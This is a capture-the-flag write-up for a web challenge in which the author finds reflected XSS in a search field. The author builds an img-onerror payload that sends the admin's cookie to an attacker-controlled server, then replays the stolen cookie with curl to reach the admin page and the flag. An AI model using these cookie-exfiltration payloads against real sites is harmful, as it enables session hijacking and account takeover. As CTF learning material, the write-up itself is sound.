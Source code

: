 # Info

The challenge brings us back to a site.
Let's try a little ...
Ok, when we do a search, the search is rewritten in the html code. So let's try an xss payload just to try it out.

OK! It is therefore an xss flaw.

Let's exploit.

The objective is to redirect the administrator, (who will click on our link that we will send him in the support section), to our own server using an html request and who will give us his cookie. Once his cookie has been recovered, we can pretend to be him and then connect to the admin area (see the cURL part) 

(Below some tests until my good one) 


# Payload XSS for the PoC:
https://searchme.0xhorizon.eu/?search=%22%3Cimg%20src=x%20onerror=%27alert(1)%27%3E%22


# Payload to redirect:
### Doesn't work --> probably cause of " which break the payload
https://searchme.0xhorizon.eu/?search="<img src=x onerror='document.location="http://ip_of_my_aws_server:8888?hello="+document.cookie'>"
https://searchme.0xhorizon.eu/?search="<img src=x onerror='window.location="http://ip_of_my_aws_server:8888?hello="+document.cookie'>"

### trying to correct it, BUT we can't add something
https://searchme.0xhorizon.eu/?search="<img src=x onerror='alert(document.location="http://ip_of_my_aws_server:8888?hello="+document.cookie)'>"

# Good Payload

In fact, we just needed to .concat instead of adding.

https://searchme.0xhorizon.eu/?search="<img src=x onerror='alert(document.location="http://ip_of_my_aws_server:8888?hello=".concat(document.cookie))'>"

# Response

151.80.56.168 - - [04/Nov/2021 21:00:43] "GET /?hello=login=999eb32cea9627e00939b81766f00694 HTTP/1.1" 200 -

So we get the cookie : login=999eb32cea9627e00939b81766f00694

# Let's play cURL

curl -H "Cookie: login=999eb32cea9627e00939b81766f00694" https://searchme.0xhorizon.eu/admin.php | grep 'horiz0nx'                                                                      1 ⚙



 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2045  100  2045    0     0  30984      0 --:--:-- --:--:-- --:--:-- 30984
                        <p class="card-text">My coffee machine: horiz0nx{C00ffee__m@ch1ne__1s__y0ur_n0w}</p>

## Gotcha !

horiz0nx{C00ffee__m@ch1ne__1s__y0ur_n0w}
